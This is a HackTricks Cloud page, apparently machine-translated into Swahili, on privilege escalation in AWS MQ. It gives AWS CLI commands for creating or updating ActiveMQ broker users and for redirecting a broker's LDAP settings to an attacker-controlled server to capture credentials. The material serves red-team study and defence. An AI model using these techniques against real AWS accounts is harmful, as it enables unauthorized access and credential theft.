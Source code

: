 # AWS - MQ Privesc

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

## MQ

Kwa maelezo zaidi kuhusu MQ angalia:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

Kwa ruhusa hizo unaweza **kuunda mtumiaji mpya katika broker ya ActimeMQ** (hii haifanyi kazi katika RabbitMQ):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Madhara Yanayoweza Kutokea:** Upatikanaji wa taarifa nyeti kupitia ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Kwa ruhusa hizo unaweza **kuunda mtumiaji mpya katika broker ya ActimeMQ** (hii haifanyi kazi katika RabbitMQ):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Madhara Yanayoweza Kutokea:** Upatikanaji wa taarifa nyeti kupitia ActiveMQ

### `mq:ListBrokers`, `mq:UpdateBroker`

Ikiwa broker inatumia **LDAP** kwa ajili ya idhini na **ActiveMQ**. Inawezekana **kubadilisha** **mipangilio** ya seva ya LDAP inayotumika kuwa **moja inayodhibitiwa na mshambuliaji**. Kwa njia hii mshambuliaji ataweza **kuiba nyaraka zote zinazotumwa kupitia LDAP**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Ikiwa unaweza kwa namna fulani kupata akauti za awali zilizotumika na ActiveMQ unaweza kufanya MitM, kuiba akauti, kuzitumia kwenye seva ya awali, na kutuma jibu (labda kwa kurudia tu akauti zilizibwa unaweza kufanya hivi).

**Athari Zinazoweza Kutokea:** Iba akauti za ActiveMQ

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
